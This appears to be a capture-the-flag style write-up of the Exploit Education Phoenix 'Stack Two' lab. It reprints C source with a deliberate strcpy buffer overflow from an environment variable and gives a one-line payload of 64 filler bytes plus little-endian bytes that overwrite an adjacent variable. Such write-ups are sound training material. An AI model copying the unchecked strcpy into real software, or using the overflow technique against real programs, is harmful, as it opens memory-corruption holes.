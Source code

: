```yaml
---
description: 07/18/2023
---
```


# 2⃣ Stack Two



> Stack Two takes a look at environment variables, and how they can be set.

## Source Code

```c
/*
 * phoenix/stack-two, by https://exploit.education
 *
 * The aim is to change the contents of the changeme variable to 0x0d0a090a
 *
 * If you're Russian to get to the bath room, and you are Finnish when you get
 * out, what are you when you are in the bath room?
 *
 * European!
 */

#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

int main(int argc, char **argv) {
  struct {
    char buffer[64];
    volatile int changeme;
  } locals;

  char *ptr;

  printf("%s\n", BANNER);

  ptr = getenv("ExploitEducation");
  if (ptr == NULL) {
    errx(1, "please set the ExploitEducation environment variable");
  }

  locals.changeme = 0;
  strcpy(locals.buffer, ptr);

  if (locals.changeme == 0x0d0a090a) {
    puts("Well done, you have successfully set changeme to the correct value");
  } else {
    printf("Almost! changeme is currently 0x%08x, we want 0x0d0a090a\n",
        locals.changeme);
  }

  exit(0);
}
```

Judging from the description, we need to overflow our buffer with an environment variable.

<figure><img src="../../.gitbook/assets/image (72).png" alt=""><figcaption></figcaption></figure>

## Source Code Analysis

A <mark style="color:yellow;">pointer</mark> (`ptr`) is <mark style="color:yellow;">pointing</mark> to a <mark style="color:yellow;">string</mark> (`char`) in the <mark style="color:yellow;">environment variable</mark> of "`ExploitEducation`".&#x20;

`strcpy()` will then copy the variable contained in the buffer.

* `strcpy()` is <mark style="color:red;">dangerous</mark> because it <mark style="color:yellow;">does not specify the size of the destination array</mark>
* A.K.A, buffer overflow territory
* <pre><code><strong>Hex: 0x0d0a090a
  </strong>Little Endian: \x0a\x09\x0a\x0d
  </code></pre>

Snippet to focus on:

```c
  ptr = getenv("ExploitEducation");
  if (ptr == NULL) {
    errx(1, "please set the ExploitEducation environment variable");
  }

  locals.changeme = 0;
  strcpy(locals.buffer, ptr);

  if (locals.changeme == 0x0d0a090a) {
    puts("Well done, you have successfully set changeme to the correct value");
  } else {
    printf("Almost! changeme is currently 0x%08x, we want 0x0d0a090a\n",
        locals.changeme);
  }
```

## Exploitation

I like to keep things as simple as possible and try to use one-liners whenever possible, since I didn't know this one off the top of my head, I asked ChatGPT:

<figure><img src="../../.gitbook/assets/image (73).png" alt=""><figcaption></figcaption></figure>

Let's see if we can set our variable and then execute our binary immediately after on the same line:

```
ExploitEducation=$(python -c 'print "X"*64 + "\x0a\x09\x0a\x0d"') ./stack-two
```

<figure><img src="../../.gitbook/assets/image (53).png" alt=""><figcaption></figcaption></figure>
